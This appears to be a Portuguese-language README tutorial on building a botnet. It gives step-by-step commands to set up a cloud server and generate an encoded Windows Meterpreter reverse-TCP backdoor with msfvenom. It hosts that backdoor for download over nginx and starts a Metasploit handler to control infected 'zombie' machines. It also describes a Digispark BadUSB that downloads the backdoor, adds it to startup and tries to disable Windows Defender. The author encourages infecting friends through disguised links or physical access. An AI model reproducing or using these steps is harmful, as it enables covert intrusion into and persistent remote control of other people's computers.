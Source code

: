  
1 - Criar uma INSTANCIA e definir um IP estatico

    Eu estarei utilizando o GCP(Google cloud platform) mas você pode utilizar o provedor de CLOUD que deseja ou até mesmo um VPS.

    1 - Acesso meu console e crio a instancia. Estancia essa que é bem basica uma micro com SO Debian 9

    2 - Com o a instancia criada, eu defino um IP estatico para minha instancia. Um IP estatico é necessario para que não ocorra o risco do IP mudar e perdemos nossos "computadores zumbis" já conquistados.

2 - Instalar METASPLOIT e NGINX


        Nesse passo vamos instalar nosso canivete suiço METASPLOIT para criamos nosso BACKDOOR e orquestramos nossos "computadores zumbis" o nginx vai ser necessario para que o nosso payload do Digispark possa fazer o download do BACKDOOR para dentro da maquina alvo.

        1 - Conecte a sua instancia por ssh para instalarmos o METASPLOIT e o NGINX para isso rode 

            $ ssh usuario@instancia 

            apos se conectar rode instale o nginx ou apache como preferir

            $ sudo apt-get install -y nginx

            agora os comandos abaixo é para instalar o METASPLOIT

            $ curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

            conceder permisão de execução para o instalador

            $ chmod +x msfinstall

            agora execulte o mesmo

            $ ./msfinstall

            Efeito isso e não deu nenhum error é so verificar se ta tudo certo.
            Como vai ser a primeira execução ele vai perguntar se você deseja criar um novo banco de dados para o metasploit você responde com um sim e seus dados que ele vai criar as credenciais e configurar tudo para que você possa utilizar a ferramenta

            $ msfconsole --version

3 - Criar BACKDOOR REVERSE


        1 -  Agora vamos criar o backdoor definindo qual tipo de conexão iremos usar que vai ser uma REVERSA TCP para qual tipo de SO,
        qual vai ser o nosso LHOST(IP de comunicação) nossa LPORT(porta de comunicação) o tipo da extenção do backdoor -f exe o algoritmo de criptografia e compreensão, -i o numero de interações do encoded com o backdoor, -o o nosso arquivo de saida. 

        se você estive e uma cloud provavelmente vai ter que criar uma regra de firewall para a sua porta escolhida

        $ msfvenom -p windows/meterpreter/reverse_tcp LHOST=34.97.212.80 LPORT=5000 -f exe -e x86/shikata_ga_nai -i 5 -o payload.exe

        Rodando um ls verá que o arquivo payload.exe foi criado


4 - Configurar NGINX para download do backdoor

        1 - Vamos criar uma copia dele dentro da nossa pasta do servidor 

        $ sudo cp ./payload.exe /var/www/html/payload.exe

        3 - feito isso nosso arquivo vai esta disponivel para download em 

        http://34.97.212.80/payload.exe


5 - Digispark
    
        Para continuarmos com nosso ataque, precisamos conquistar nosso primeiro "Zumbir".
        Podemos fazer isso de varias formas envolvendo engenharia social entre elas as mais comuns, como enviar o nosso link para um amigo, ofuscado de tal forma que não levante suspeitas. 
        
        Mas aqui vou abordar um ataque de infecção fisica, onde iremos ter acesso fisico a uma maquina e com a posse de um Digispark iremos infectar uma maquina. 
        Para quem não conhece o Digispark, ele é uma placa de desenvolvimento com tamanho reduzido e 6 pinos de I/O (entrada/saída), ideal para uso em projetos de IoT (Internet of Things ou Internet das Coisas) ou simplesmente para uso em projetos onde você não precisa de muitas portas do microcontrolador. 
        
        Que chega ser um GENERICO ao Rubber duck(dispositivo esse usado na serie Mr. Robot) e pode ser programada com a IDE do Arduino. 
        
        com isso configuraremos o Digispark para reconhecido como um teclado, qual não iremos precisar de nenhum tipo de permisão do usuario da maquina e iremos executar comandos de teclado para fazer o download do backdoor e execultar ele na maquina e adicionar ele junto a inicialização do Windows, para que quando a maquinar for reiniciar obtermos uma nova conexão com a mesma. 
        
        Agora bora lá, para isso você vai precisar de um Digispark ATtiny85 que pode ser encontrado no mercado livre por R$ 16 
        
        https://eletronicos.mercadolivre.com.br/pecas-componentes/arduino-digispark
        
        Com ele em mãos agora você vai precisar carregar neles os modulos de "teclado" transformando-o em um "rubbe duck" para isso você pode seguir os passos deste tutorial e voltar aqui
        
        https://aminbohio.com/creating-a-cheap-rubber-ducky-aka-bad-usb-with-attiny85/
        
        Talvez você enfrente problemas ao efetuar a injeção de payload no digispark para resolver isso você vai precisar configurar o uDev 
        https://www.hardware.com.br/livros/ferramentas-linux/entendendo-udev.html
         

6 - Criar Payload para injectar o BACKDOOR 

          Feito tudo isso e com o ARDUINO IDE instalado vamos criar o nosso Payload que ao pluggarmos em uma maquina vai fazer o download do backdoor, mover ele para a inicialização do windows, tentar desativar o windows defender e  execultar nosso backdoor, tudo isso em questão de segundos hahahahaha
        
        Abra o Arduino IDE e cole o payload que vou deixar aqui para vocês
        
        copiado e colado e entendido o que o payload faz, você pluga o digispark na porta USB da sua maquina e clicamos em verificar primeiro e depois em carregar e aguarde a IDE solicitar que você pluge o dispositivo
        
        E SUCESSO! Diggispark RUBBE DUCK esta criado. Agora basta plugar o digispark em qualquer maquina windows aguardar 4 segundos e remove-lo, tudo muito rapido. 


7 - INICIAR ESCULTA DAS CONEXOES DO BACKDOOR

        Agora voltamos para a nossa instancia para iniciarmos a esculta do backdoor na nossa porta
        
            em acesso SSH a nossa instancia iniciamos o console do Metasploit executado
            
            $ msfconsole
        
                depois de iniciado
                
                msf > use exploit/multi/handler   
                 msf >set PAYLOAD windows/meterpreter/reverse_tcp    
                 msf >set LHOST 34.97.212.80  
                 msf >set LPORT 5000   
                 msf >set ExitOnSession false   
                 msf > exploit -j -z   
                 
              em seguida 
              
                msf> sessions -l 
                
                para listar nossas conexões de entrada até o momento 
                
                e para acessar um "zumbir
                
                msf> sessions -i <numero da sessão> 
    
8 - Obter acesso a uma maquina infectada

    agora basta enviar o link para alguem ou plugar o digispark em alguma maquina e se divertir hahaha
